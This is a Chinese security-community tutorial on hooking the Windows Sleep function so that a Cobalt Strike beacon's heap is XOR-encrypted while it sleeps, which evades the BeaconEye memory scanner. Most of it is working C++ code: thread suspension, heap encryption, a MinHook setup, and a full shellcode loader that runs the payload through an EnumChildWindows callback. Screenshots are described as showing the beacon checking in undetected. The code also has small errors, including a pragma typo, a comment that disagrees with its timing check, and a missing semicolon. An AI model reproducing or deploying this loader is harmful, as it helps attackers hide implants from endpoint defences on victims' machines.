






# 挂钩 Sleep 函数绕过 BeaocnEye - 先知社区

挂钩 Sleep 函数绕过 BeaocnEye

- - -

## 为什么要挂钩 Sleep 函数？

因为杀软不是一直在扫描内存，所以我们可以在 Cobalt Strike 的睡眠期间进行堆栈加密来避免杀软扫到我们的恶意载荷。

先来看效果：

如下这是我们 loader 程序，我们运行起来。并且我们使用 BeaconEye 并没有扫描出来。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094444-7b1aedca-bbec-1.png)  
我们可以看到已经上线了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094450-7e468180-bbec-1.png)  
这里我们将 Sleep 设置为 0，再次让 BeaocnEye 进行扫描。

可以看到已经扫描出来了。

也就是说在 CS 的睡眠期间，堆栈是加密的，等他睡眠过后进行了解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094455-817c23dc-bbec-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094458-83380fba-bbec-1.png)

## 如何实现？

1.  挂起线程
2.  遍历堆中的每一个分配空间然后对其进行加密。
3.  时间恢复之后进行解密。
4.  恢复线程。

### 挂起线程

首先利用 CreateToolhelp32Snapshot 函数来获取指定进程以及这些进程使用的堆、模块和线程的快照，这里我们第一个参数给 TH32CS\_SNAPTHREAD，表示我们要获取到系统中的所有线程，第二个参数给 0 表示指定的是当前的线程。

```plain
HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
```

然后调用 Thread32First 函数来检索系统快照中遇到的任何进程的第一个线程的相关信息。

这里的第一个参数表示快照的句柄，也就是我们上一步通过 CreateToolhelp32Snapshot 函数返回的句柄，第二个参数指向 [THREADENTRY32](https://learn.microsoft.com/zh-cn/windows/desktop/api/tlhelp32/ns-tlhelp32-threadentry32) 结构的指针，所以我们需要定义一个 [THREADENTRY32](https://learn.microsoft.com/zh-cn/windows/desktop/api/tlhelp32/ns-tlhelp32-threadentry32) 结构的指针。它的返回值是如果线程列表的第一个条目已复制到缓冲区，则返回 **TRUE** ，否则返回 **FALSE** 。

```plain
THREADENTRY32 th;
Thread32First(h, &te)
```

然后通过 openThread 函数来打开当前现有的线程对象。

这里的第一个参数表示对线程对象的访问。根据线程的安全描述符检查此访问权限。

第二个参数如果为 TRUE 的话则此进程创建的进程将继承句柄，这里给 FALSE。

最后一个参数就是你要打开的线程的标识符。

```plain
HANDLE thread = OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);
```

最后调用 SuspendThread 函数挂起线程。

它只有一个参数就是你要挂起线程的句柄也就是上一步通过 openThread 函数来打开的线程对象句柄。

```plain
SuspendThread(thread);
```

完整代码：

```plain
void PendingThread(DWORD processid, DWORD Id)
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (h != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 th;
        th.dwSize = sizeof(th);
        if (Thread32First(h, &th))
        {
            do
            {
                if (th.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(th.th32OwnerProcessID))
                {
                    if (th.th32ThreadID != Id && th.th32OwnerProcessID == processid)
                    {
                        HANDLE thread = OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);
                        if (thread != NULL)
                        {
                            SuspendThread(thread);
                            CloseHandle(thread);
                        }
                    }
                }
                th.dwSize = sizeof(th);
            } while (Thread32Next(h, &th));
        }
        CloseHandle(h);
    }
}
```

### 恢复线程

恢复线程和挂起线程差不多，唯一的区别在于挂起线程使用 SuspendThread 函数，而恢复线程使用 ResumeThread 函数。

```plain
void RestoreThreads(DWORD processid, DWORD Id)
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (h != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 th;
        th.dwSize = sizeof(th);
        if (Thread32First(h, &th))
        {
            do
            {
                if (th.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(th.th32OwnerProcessID))
                {
                    if (th.th32ThreadID != Id && th.th32OwnerProcessID == processid)
                    {
                        HANDLE thread = ::OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);
                        if (thread != NULL)
                        {
                            ResumeThread(thread);
                            CloseHandle(thread);
                        }
                    }
                }
                th.dwSize = sizeof(th);
            } while (Thread32Next(h, &th));
        }
        CloseHandle(h);
    }
}
```

### 遍历堆栈

接下来我们需要遍历堆栈，然后进行加密，这里我们需要使用到 HeapWalk 函数。

HeapWalk 函数将枚举堆中的内存块。枚举出来之后我们进行加密即可，这里有两个参数，第一个参数表示堆的句柄。这里我们需要使用 getProcessHeap 函数来调用进程的默认堆的句柄。第二个参数指向 PROCESS\_HEAP\_ENTRY 结构的指针，PROCESS\_HEAP\_ENTRY 结构如下：

```plain
typedef struct _PROCESS_HEAP_ENTRY {
  PVOID lpData;
  DWORD cbData;
  BYTE  cbOverhead;
  BYTE  iRegionIndex;
  WORD  wFlags;
  union {
    struct {
      HANDLE hMem;
      DWORD  dwReserved[3];
    } Block;
    struct {
      DWORD  dwCommittedSize;
      DWORD  dwUnCommittedSize;
      LPVOID lpFirstBlock;
      LPVOID lpLastBlock;
    } Region;
  } DUMMYUNIONNAME;
} PROCESS_HEAP_ENTRY, *LPPROCESS_HEAP_ENTRY, *PPROCESS_HEAP_ENTRY;
```

这里我们需要关注的是 wFlags 参数，这个参数表示的是堆元素的属性，里面有很多值可以参考如下：

```plain
https://learn.microsoft.com/zh-cn/windows/win32/api/minwinbase/ns-minwinbase-process_heap_entry
```

遍历完成之后然后通过异或进行加密，当然你也可以使用 RC4 等等加密方式。

如下代码：

```plain
PROCESS_HEAP_ENTRY entry;
const char key[] = "DWADWADWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASADSADSADSADAS";
size_t keySize = sizeof(key);
void Stackencryption() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(GetProcessHeap(), &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            xor_bidirectional_encode((PBYTE)(entry.lpData),entry.cbData,(PBYTE)key,keySize);
        }
    }
}
```

异或代码：

```plain
void xor_bidirectional_encode(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j > sKeySize) {
            j = 0;
        }
        pShellcode[i] = pShellcode[i] ^ bKey[j % 8] + 1;    
    }
}
```

### MinHook

上面搞定之后接下来使用 MinHook 来挂钩 Sleep 函数。

前面的公众号文章也说到过我们只需要自定义一个函数，当调用原始函数的时候触发挂钩然后跳转到我们自定义的函数。说的简单点就是一个 jmp 的操作。

可以参考我这里的公众号文章：

```plain
https://mp.weixin.qq.com/s/JH7IyZGHLTym2e4I179XXw
```

下载地址为：

```plain
https://github.com/TsudaKageyu/minhook
```

首先需要将 lib 文件和 Minhook.h 文件拉入到项目中。

```plain
#include <iostream>
#include "MinHook.h"
#pragma commint(lib,"C:\\Users\\Admin\\Desktop\\bin\\libMinHook.x86.lib");
int main()
{

}
```

这里我们直接给出代码了，因为上面文章已经介绍过了。

```plain
void(WINAPI* SleepTest)(DWORD dwMiliseconds);
void WINAPI HookedSleep(DWORD dwMiliseconds) {
    DWORD time = dwMiliseconds;
    if (time > 3000) { //如果时间大于 1 秒的话
        //首先挂起线程
        PendingThread(GetCurrentProcessId(), GetCurrentThreadId());
        //加密
        Stackencryption();

        SleepTest(dwMiliseconds);
        //进行解密
        Stackencryption();
        //然后恢复挂起的线程
        RestoreThreads(GetCurrentProcessId(), GetCurrentThreadId());
    }
    else {
        SleepTest(time);
    }
}
template <typename T>
inline MH_STATUS MH_CreateHookEx(LPVOID pTarget, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHook(pTarget, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
}

template <typename T>
inline MH_STATUS MH_CreateHookApiEx(
    LPCWSTR pszModule, LPCSTR pszProcName, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHookApi(
        pszModule, pszProcName, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
}
BOOL HookTest() {
    if (MH_Initialize() != MH_OK)
    {
        return 1;
    }

    if (MH_CreateHookApiEx(
        L"kernel32.dll", "Sleep", &HookedSleep, &SleepTest) != MH_OK)
    {
        return 1;
    }

    if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)
    {
        return 1;
    }
}
```

最后我们执行 Shellcode 即可，在执行 shellcode 之前调用 HookTest 即可。

```plain
int main(){
    HookTest();
    unsigned char dll[263168] = {shellcode}
    SIZE_T size = sizeof(dll);
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);
    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);
    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);
}
```

然后我们使用 BeaconEye 扫描，可以看到已经扫描不到了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094514-8cc0178a-bbec-1.png)  
正常上线：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126094519-8fedaf9e-bbec-1.png)  
完整代码：

```plain
#include <stdio.h>
#include <windows.h> 
#include <lm.h>
#include <tlhelp32.h>
#include "MinHook.h"
#if defined _M_X64
#pragma comment(lib, "C:\\Users\\Admin\\Desktop\\bin\\libMinHook.x64.lib")
#elif defined _M_IX86
#pragma comment(lib, "C:\\Users\\Admin\\Desktop\\bin\\libMinHook.x86.lib")
#endif
void PendingThread(DWORD processid, DWORD Id)
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (h != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 th;
        th.dwSize = sizeof(th);
        if (Thread32First(h, &th))
        {
            do
            {
                if (th.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(th.th32OwnerProcessID))
                {
                    if (th.th32ThreadID != Id && th.th32OwnerProcessID == processid)
                    {
                        HANDLE thread = OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);
                        if (thread != NULL)
                        {
                            SuspendThread(thread);
                            CloseHandle(thread);
                        }
                    }
                }
                th.dwSize = sizeof(th);
            } while (Thread32Next(h, &th));
        }
        CloseHandle(h);
    }
}
void RestoreThreads(DWORD processid, DWORD Id)
{
    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (h != INVALID_HANDLE_VALUE)
    {
        THREADENTRY32 th;
        th.dwSize = sizeof(th);
        if (Thread32First(h, &th))
        {
            do
            {
                if (th.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(th.th32OwnerProcessID))
                {
                    if (th.th32ThreadID != Id && th.th32OwnerProcessID == processid)
                    {
                        HANDLE thread = ::OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);
                        if (thread != NULL)
                        {
                            ResumeThread(thread);
                            CloseHandle(thread);
                        }
                    }
                }
                th.dwSize = sizeof(th);
            } while (Thread32Next(h, &th));
        }
        CloseHandle(h);
    }
}
void xor_bidirectional_encode(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j > sKeySize) {
            j = 0;
        }
        pShellcode[i] = pShellcode[i] ^ bKey[j % 8] + 1;


    }
}
const char key[] = "DWADWADWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASADSADSADSADAS";
size_t keySize = sizeof(key);

PROCESS_HEAP_ENTRY entry;
void Stackencryption() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(GetProcessHeap(), &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            xor_bidirectional_encode((PBYTE)(entry.lpData), entry.cbData, (PBYTE)key, keySize);
        }
    }
}

void(WINAPI* SleepTest)(DWORD dwMiliseconds);
//Hook Sleep 函数
void WINAPI HookedSleep(DWORD dwMiliseconds) {
    DWORD time = dwMiliseconds;
    if (time > 3000) { //如果时间大于 1 秒的话
        //首先挂起线程
        PendingThread(GetCurrentProcessId(), GetCurrentThreadId());
        //加密
        Stackencryption();

        SleepTest(dwMiliseconds);
        //进行解密
        Stackencryption();
        //然后恢复挂起的线程
        RestoreThreads(GetCurrentProcessId(), GetCurrentThreadId());
    }
    else {
        SleepTest(time);
    }
}
template <typename T>
inline MH_STATUS MH_CreateHookEx(LPVOID pTarget, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHook(pTarget, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
}

template <typename T>
inline MH_STATUS MH_CreateHookApiEx(
    LPCWSTR pszModule, LPCSTR pszProcName, LPVOID pDetour, T** ppOriginal)
{
    return MH_CreateHookApi(
        pszModule, pszProcName, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));
}
BOOL HookTest() {
    if (MH_Initialize() != MH_OK)
    {
        return 1;
    }

    if (MH_CreateHookApiEx(
        L"kernel32.dll", "Sleep", &HookedSleep, &SleepTest) != MH_OK)
    {
        return 1;
    }

    if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)
    {
        return 1;
    }
}
int main()
{
    HookTest();
    unsigned char dll[263168] = {shellcode}
    SIZE_T size = sizeof(dll);
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);
    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);
    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);

}
```

参考： 
[https://tttang.com/archive/1392/](https://tttang.com/archive/1392/)
